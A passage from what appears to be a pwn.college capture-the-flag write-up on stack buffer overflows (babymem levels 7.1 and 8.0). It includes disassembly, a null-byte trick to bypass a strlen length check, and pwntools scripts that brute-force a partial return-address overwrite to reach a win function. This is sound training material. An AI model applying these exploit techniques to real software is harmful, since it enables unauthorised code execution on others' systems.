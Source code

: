 Depend on it, we need to overwrite byte 0x1551 to bypass the condition.
- Next, we need to calculate the offset between buffer and return address; we do this in before level. 
    `offset = 120`
- Finally, write script:

```
from pwn import *
while True:
    r = process('/challenge/babymem_level7.1')
    r.recvuntil(b'Payload size: ')
    r.sendline(b'122')
    r.recvuntil(b'Send your payload (up to 122 bytes)!')
    r.sendline(b'\x00'*120 + 0x1551.to_bytes(2, 'little'))
    result = r.recvall()
    r.close()
    if b'pwn.college{' in result:
        print(result.decode('utf-8', errors='ignore'))
        break
```

# 8. Level 8.0:
> In this level, there is no "win" variable.
> You will need to force the program to execute the win_authed() function
> by directly overflowing into the stored return address back to main.

-I write something that is long and the program gives me result:
```
Checking length of received string...
babymem_level8.0: <stdin>:193: challenge: Assertion `string_length < 120' failed.
Aborted
```
-Let's debug or use the objdump command to find the check to bypass this. I see the important segment:
```
0x000000000000216b <+1513>:  mov    rdx,QWORD PTR [rbp-0xa8]
0x0000000000002172 <+1520>:  mov    rax,QWORD PTR [rbp-0x10]
0x0000000000002176 <+1524>:  mov    rsi,rax
0x0000000000002179 <+1527>:  mov    edi,0x0
0x000000000000217e <+1532>:  call   0x11c0 <read@plt>
0x0000000000002183 <+1537>:  mov    DWORD PTR [rbp-0x14],eax
0x0000000000002186 <+1540>:  lea    rdi,[rip+0x218b]        # 0x4318
0x000000000000218d <+1547>:  call   0x1160 <puts@plt>
0x0000000000002192 <+1552>:  mov    rax,QWORD PTR [rbp-0x10]
0x0000000000002196 <+1556>:  mov    rdi,rax
0x0000000000002199 <+1559>:  call   0x1180 <strlen@plt>
0x000000000000219e <+1564>:  mov    QWORD PTR [rbp-0x20],rax
0x00000000000021a2 <+1568>:  cmp    QWORD PTR [rbp-0x20],0x77
0x00000000000021a7 <+1573>:  jbe    0x21c8 <challenge+1606>
```
-I see the strlen function to calculate the length of my string input, so how does strlen work? It takes the agrument as the pointer and reads through each letter until it reads a null byte(\x00).
-Therefore, I think there is something interesting when I only input nullbyte or nullbyte first; I bypass this check. The work after is the same as above level.
**My script:**
```
from pwn import *
while True:
    r = process('/challenge/babymem_level8.0')
    r.recvuntil(b'Payload size: ')
    r.sendline(b'170')
    r.recvuntil(b'Send your payload (up to 170 bytes)!')
    r.sendline(b'\x00'*168 + 0x1a8a.to_bytes(2, 'little'))
    result = r.recvall()
    r.close()
```